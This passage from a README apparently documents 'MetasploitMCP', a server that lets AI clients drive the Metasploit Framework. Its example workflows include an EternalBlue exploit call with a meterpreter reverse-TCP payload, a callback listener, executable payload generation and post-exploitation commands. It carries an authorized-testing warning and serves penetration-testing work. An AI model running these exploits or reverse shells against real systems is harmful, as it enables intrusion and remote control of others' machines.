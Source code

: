 ```json
}
```

### Other MCP Clients

For other MCP clients that use HTTP/SSE:

1. Start the server in HTTP mode:
   ```bash
   python MetasploitMCP.py --transport http --host 0.0.0.0 --port 8085
   ```

2. Configure your MCP client to connect to:
   - SSE endpoint: `http://your-server-ip:8085/sse`

## Security Considerations

⚠️ **IMPORTANT SECURITY WARNING**:

This tool provides direct access to Metasploit Framework capabilities, which include powerful exploitation features. Use responsibly and only in environments where you have explicit permission to perform security testing.

- Always validate and review all commands before execution
- Only run in segregated test environments or with proper authorization
- Be aware that post-exploitation commands can result in significant system modifications

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", {"RHOSTS": "192.168.1.100"}, "windows/x64/meterpreter/reverse_tcp", {"LHOST": "192.168.1.10", "LPORT": 4444})`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "whoami")`

### Post-Exploitation

1. Run a post module: `run_post_module("windows/gather/enum_logged_on_users", 1)`
2. Send custom commands: `send_session_command(1, "sysinfo")`
3. Terminate when done: `terminate_session(1)`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload("windows/meterpreter/reverse_tcp", "exe", {"LHOST": "192.168.1.10", "LPORT": 4444})`
4. Stop a handler: `stop_job(1)`

## Testing
